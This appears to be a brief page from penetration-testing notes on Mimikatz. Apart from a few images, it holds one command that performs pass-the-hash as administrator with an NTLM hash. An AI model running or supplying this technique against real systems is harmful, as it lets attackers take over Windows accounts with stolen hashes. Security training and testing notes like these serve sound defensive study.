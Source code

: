 ```yaml
---
title: 4.2.4.1 Mimikatz
id: zhfly3429
---
```


#### 4.2.4.1 Mimikatz

![image](../img/f711b347de20033186f04c266ddaaa21.png)

![image](../img/540004dad82c0f7c435f152ddd1ee5e9.png)

```
mimikatz # sekurlsa::pth /user:administrator /domain:. /ntlm:c5113714efbff7fa196f2e2b50938a8f 
```

![image](../img/b03b474d03bd6c8966010f4b054a4314.png)